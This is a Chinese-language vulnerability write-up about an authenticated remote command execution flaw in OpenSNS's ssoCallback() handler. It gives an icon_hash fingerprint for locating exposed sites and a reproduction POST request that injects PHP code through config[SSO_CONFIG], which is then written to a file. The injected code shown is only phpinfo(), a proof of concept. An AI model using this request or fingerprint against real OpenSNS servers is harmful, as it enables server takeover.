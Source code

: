 # OpenSNS AuthorizeController.class.php 后台远程命令执行漏洞

## 漏洞描述

OpenSNS AuthorizeController.class.php文件 ssoCallback() 函数存在命令执行漏洞，在登录的情况下可以获取服务器权限

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235551772.png)

存在漏洞的文件为 `Application/Admin/Controller/AuthorizeController.class.php`

![img](../../../.vuepress/public/img/1634375559893-600bdee5-03fe-4da2-8762-c41ded4f3797.png)

其中 config参数可控，构造请求就可以通过 file_put_contents 写入执行任意命令

![img](../../../.vuepress/public/img/1634376077943-1f4ae612-7dc6-44a8-963d-0235ce16d1fd.png)

构造请求包

```php
POST /admin.php?s=/Authorize/ssoCallback\

config[SSO_CONFIG]=phpinfo();
```

![img](../../../.vuepress/public/img/1634376114084-4e3cf1c1-1a1b-4169-bf65-322e2002a947.png)

